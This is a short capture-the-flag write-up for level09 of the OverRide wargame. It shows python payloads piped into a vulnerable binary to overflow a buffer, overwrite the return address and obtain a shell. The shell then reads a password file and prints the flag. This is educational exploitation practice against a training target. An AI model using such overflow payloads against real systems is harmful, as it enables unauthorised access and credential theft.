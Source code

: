 # level09
In this level, we have a binary that will wait for two inputs, a username and a message

```bash
level09@OverRide:~$ (python -c "print('a' * 40  + '\xc8\n')") | ./level09 
```

```bash
level09@OverRide:~$ (python -c "print('a' * 40  + '\xca\n')") | ./level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�>: Msg @Unix-Dude
>>: >: Msg sent!
Segmentation fault (core dumped)
level09@OverRide:~$ 
```

Every value higher than `\xc8` after the 40th character will produce a segfault,
so we can assume that the buffer is 200 character long

See the [gdb writeup](gdbwriteup.md) to understand what is the address that we will send after the segfault

```bash
level09@OverRide:~$ (python -c "print('a' * 40  + '\xca\n' + '\x90' * 200 + '\x00\x00\x55\x55\x55\x55\x48\x8c'[::-1])"; cat) | ./level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�>: Msg @Unix-Dude
>>: >: Msg sent!
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```
